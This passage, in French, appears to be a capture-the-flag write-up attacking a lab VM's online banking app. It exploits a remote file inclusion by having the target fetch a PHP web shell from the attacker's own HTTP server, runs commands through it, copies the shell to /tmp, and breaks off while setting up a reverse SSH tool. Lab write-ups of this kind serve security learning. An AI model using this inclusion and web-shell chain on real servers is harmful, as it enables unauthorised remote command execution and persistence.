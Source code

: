 L'appli web permet de transférer des sommes d'un compte de notre choix. On a ainsi la liste d'utilisateurs suivante :  

```plain
Admin
Bill
Steve
Timothy
Jill
Quinten
```

A conserver au cas où. Pour le reste l'URL vers laquelle on est redirigée a un format qui pourrait correspondre à une faille d'inclusion PHP. Je tente donc d'ajouter un préfixe pour tester :  

```plain
http://192.168.56.11/OnlineBanking/index.php?p=http://127.0.0.1/welcome
```

Et ça paye :  

```plain
Warning: include(http://127.0.0.1/welcome.php): failed to open stream: Connection refused in /var/www/html/OnlineBanking/index.php on line 13

Warning: include(): Failed opening 'http://127.0.0.1/welcome.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/OnlineBanking/index.php on line 13
```

J'ai été assez chanceux sur ce coup puisque si on passe *welcome3* au paramètre alors aucune erreur n'est générée. Il y a donc une espèce de whitelisting qui est appliquée et les préfixes ne sont pas pris en compte.  

Sans utilisation du préfixe j'aurais potentiellement perdu du temps avant de trouver.  

Il ne reste plus qu'à fournir un serveur web (*python3 -m http.server*) contenant un fichier *welcome.php* qui exécutera le code PHP suivant :  

```php
<?php system($_GET['cmd']); ?>
```

On obtient ainsi notre exécution de commande :  

```plain
http://192.168.56.11/OnlineBanking/index.php?p=http://192.168.56.1:8000/welcome&cmd=id
```

Ça peut être assez contraignant de conserver ce shell lié à notre serveur (reboot de la VM, changement d'IP, etc) alors le mieux est de recopier le shell où c'est possible sur le serveur (ici */tmp/welcome.php*).  

First blood
-----------

L'accès permet de valider qu'on est dans un environnement container-isé : il n'y a que très peu d'outils réseau, notamment SSH est aux abonnés absents.  

Je vais donc me servir de [ReverseSSH](https://github.com/Fahrj/reverse-ssh) (ici en version 1.2.0).  
